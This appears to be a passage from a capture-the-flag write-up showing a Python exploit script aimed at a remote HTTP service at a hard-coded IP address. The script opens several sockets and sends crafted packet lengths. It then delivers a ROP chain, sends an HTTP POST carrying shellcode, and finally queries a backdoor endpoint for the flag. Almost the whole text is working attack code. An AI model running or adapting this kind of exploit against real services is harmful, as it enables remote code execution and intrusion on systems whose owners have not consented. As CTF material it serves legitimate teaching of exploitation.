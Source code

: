 ```python
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '8.210.44.156'
port2 = int(args.PORT or 31337)

packet_lengths = b"backdoor"

sockets = []
for i in range(len(packet_lengths)+1):
    s = connect(host, port2)
    sockets.append(s)
    s.send(b"GET /")

input("stage 1")

for i, pkt_len in enumerate(packet_lengths):
    pkt_len -= tcp_header_len
    s = sockets[i]
    s.send(b"A"*pkt_len)
    time.sleep(0.1)

s=sockets[-1]

s.send(ropchain)

input("stage 2")

s = connect(host, port2)
request = b"POST / HTTP/1.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: %d\r\nlala: xxx\r\n" % (len(shellcode2))
while len(request) % 4 != 2:
    request += b"d%d: umy\r\n" % (len(request) % 4)
request += b"\r\n"
print(request)
s.send(request)
time.sleep(1)
s.send(shellcode2+b"\r\n")

print(s.recvall(timeout=2))

input("done")
print(requests.get(f"http://{host}:{port2}/action/backdoor?flag=test").content)
print(requests.get(f"http://{host}:{port2}/ads.js").content)

```



[@r0bre](https://twitter.com/r0bre), 23.01.2022
